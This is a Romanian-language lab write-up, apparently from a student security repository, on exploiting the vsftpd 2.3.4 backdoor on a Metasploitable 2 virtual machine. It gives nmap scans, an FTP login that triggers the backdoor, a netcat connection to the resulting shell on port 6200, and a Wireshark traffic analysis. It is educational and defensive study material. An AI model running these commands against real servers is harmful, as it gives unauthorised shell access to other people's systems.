 
### Atac FTP:

   - [Despre FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - versiune: *vsftpd 2.3.4*
   [In 2011, in arhiva de pe site-ul oficial al serviciului FTP a fost atasat un virus backdoor care executa un shell pe portul 6200. Pentru a executa virusul, username-ul folosit la conectarea serviciului FTP putea fi oricare sir de caractere urmat de un ":)"]

   - Pasii atacului:
      
         nmap -sSV 192.168.56.102 -p21,6200
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p21,6200 <-> scanam doar porturile 21 si 6200
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-1.png)

     Se poate observa ca portul 6200 inca nu este deschis.
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis.
     
         nc -v 192.168.56.102 6200
         
      ##### Explicatii comanda:
        ```
        nc <-> netcat
        -v <-> verbose
        192.168.56.102 <-> adresa IP a tintei
        6200 <-> portul pe care ne conectam
        ```     
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
     
   - Analiza trafic:
      - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
      - Pentru a filtra traficul din captura wireshark se poate folosi filtrul *tcp.stream eq 0* pentru a vedea doar pachetele dintre atacator si tinta din prima conexiune esuata
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-first-connection.png)
      - Pentru a filtra traficul din captura wireshark se poate folosi filtrul *tcp.stream eq 1* pentru a doua conexiune pe portul 6200 prin care s-a efectuat un reverse shell
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-second-conn-port-6200.png)

